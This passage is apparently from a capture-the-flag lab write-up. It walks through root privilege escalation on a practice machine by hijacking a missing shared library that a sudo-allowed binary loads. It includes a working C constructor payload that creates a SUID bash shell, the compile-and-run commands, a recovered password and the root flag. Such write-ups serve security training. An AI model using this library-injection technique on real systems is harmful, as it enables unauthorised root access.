 Check availability of `ltrace` or `strace`

```bash
rektsu@zipping:/var/www/html/shop$ ltrace
bash: ltrace: command not found
rektsu@zipping:/var/www/html/shop$ strace
strace: must have PROG [ARGS] or -p PID
Try 'strace -h' for more information.
```

> **Check SO injection with filters**
> > Refer - https://book.hacktricks.xyz/linux-hardening/privilege-escalation#suid-binary-.so-injection
{: .prompt-tip }

Enter the password after it pause, since **grep** have suppressed the prompt message

```bash
rektsu@zipping:/home/rektsu$ strace /usr/bin/stock 2>&1 | grep -i -E "open|access|no such file"
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
St0ckM4nager
openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
```

It is calling `/home/rektsu/.config/libcounter.so`, which have the result `No such file or directory`

#### Hijack

```bash
rektsu@zipping:/home/rektsu$ nano /home/rektsu/.config/libcounter.c
```

> `/home/rektsu/.config/libcounter.c`

```c

#include <stdio.h>

#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

```bash
rektsu@zipping:/home/rektsu$ gcc -shared -o /home/rektsu/.config/libcounter.so -fPIC /home/rektsu/.config/libcounter.c
rektsu@zipping:/home/rektsu$ sudo /usr/bin/stock
Enter the password: St0ckM4nager
root@zipping:/home/rektsu# id
uid=0(root) gid=0(root) groups=0(root)
root@zipping:/home/rektsu# cat /root/root.txt
5b163c05e131ae7b5f8ea84405029ea5
```
